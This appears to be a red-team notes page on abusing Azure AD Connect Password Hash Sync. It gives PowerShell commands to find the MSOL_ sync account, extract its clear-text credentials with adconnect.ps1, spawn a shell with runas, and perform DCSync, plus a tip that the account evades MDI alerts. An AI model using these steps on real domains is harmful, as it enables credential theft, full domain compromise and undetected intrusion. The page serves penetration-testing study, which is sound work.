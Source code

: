 # Azure AD Integrations

## Theory

Azure AD is a popular method to extend identity management from on-premises AD to Microsoft's Azure offerings.

An on-premises AD can be integrated with Azure AD using Azure AD Connect with the following methods:

* Password Hash Sync (PHS)
* Pass-Through Authentication (PTA)
* Federation&#x20;

Azure AD Connect is installed on-premises and has a high privilege account both in on AD and Azure AD!

## Abuse

### PHS

#### Enumerate

Using PowerView

{% code overflow="wrap" %}
```powershell
Get-DomainUser -Identity "<$User with sync> -Domain <$Domain>
```
{% endcode %}

Using AD-Module

We can find out the machine where Azure AD Connect is installed by looking at the Description of special account whose name begins with MSOL\_.

Using AD-Module:

{% code overflow="wrap" %}
```powershell
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Server <$Domain> -Properties * | select SamAccountName,Description | fl
```
{% endcode %}

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/immagine%20(31).png" alt=""><figcaption></figcaption></figure>

#### Get credentials and shell

With admin privileges, if if we run adconnect.ps1, we can extract the credentials of the account in clear text

```powershell
./adconnect.ps1
```

And with the password you can ran a shell as the user using runas

```powershell
runas /user:<$User> /netonly cmd 
```

With that you can [DCSync](exploitation-abuse/dacl/dcsync.md)

{% hint style="info" %}
Note that because AD Connect synchronizes hashes every two minutes, in an Enterprise Environment, the MSOL\_ account will be excluded from tools like MDI! This will allow us to run DCSync without any alerts!
{% endhint %}

## References

{% embed url="https://blog.xpnsec.com/azuread-connect-for-redteam/" %}

